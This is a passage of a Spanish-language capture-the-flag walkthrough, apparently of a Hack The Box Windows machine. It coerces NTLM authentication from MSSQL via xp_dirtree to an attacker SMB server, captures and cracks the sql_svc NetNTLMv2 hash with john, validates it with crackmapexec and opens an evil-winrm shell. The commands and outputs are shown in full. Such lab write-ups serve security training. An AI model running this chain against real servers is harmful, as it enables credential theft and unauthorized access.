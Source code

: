 Montamos el servidor 
```bash
❯ smbserver.py $(pwd) smb -smb2support
```
Desde la consola de la base de datos
```bash
SQL> xp_dirtree "\\10.10.14.123\smb\"
```
Y en el servidor nos llega la autenticacion a nivel de red
```bash
❯ smbserver.py $(pwd) smb -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,62408)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:33a8c45edc3262f3001d55e2299b2300:010100000000000080b7664dc14fd901761fe405f2723dfb00000000010010004b00670052004e006600530042006100020010007400460067004d006600580051006e00030010004b00670052004e006600530042006100040010007400460067004d006600580051006e000700080080b7664dc14fd9010600040002000000080030003000000000000000000000000030000059047754121c9eb15faabcdbbb8b2de26a14104a08a1c56a1f19fbc07d8adace0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100320033000000000000000000
[*] Closing down connection (10.10.11.202,62408)
[*] Remaining connections []
```
Pongamos este hash en un archivo para intentar romperlo por fuerza bruta
```bash
❯ cat hash
sql_svc::sequel:aaaaaaaaaaaaaaaa:7f8699add3ae233d83b64aaa40c1b557:010100000000000000acc69fcd4ed9019c2ca62360664d380000000001001000790064004d006e004500440071007a0002001000640070004e004c0064006a004600520003001000790064004d006e004500440071007a0004001000640070004e004c0064006a00460052000700080000acc69fcd4ed90106000400020000000800300030000000000000000000000000300000924306984f73ff5a3d54d3e89b54431796081806f6384c548695506609730c8a0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380036000000000000000000
```
Le pasamos el hash a john y nos da la contraseña en texto claro
```bash
❯ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
1g 0:00:00:18 DONE (2023-03-05 19:22) 0.05543g/s 593284p/s 593284c/s 593284C/s RENZOJERSON..RBDfan
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
Podemos comprobar que las credenciales son correctas usando crackmapexec
```bash
❯ crackmapexec smb 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
SMB         10.10.11.202    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie 
```
si las probamos por winrm tambien nos pone un mas por lo que nos podemos connectar usando evil-winrm
```bash
❯ evil-winrm -i 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'

Evil-WinRM shell v3.4
```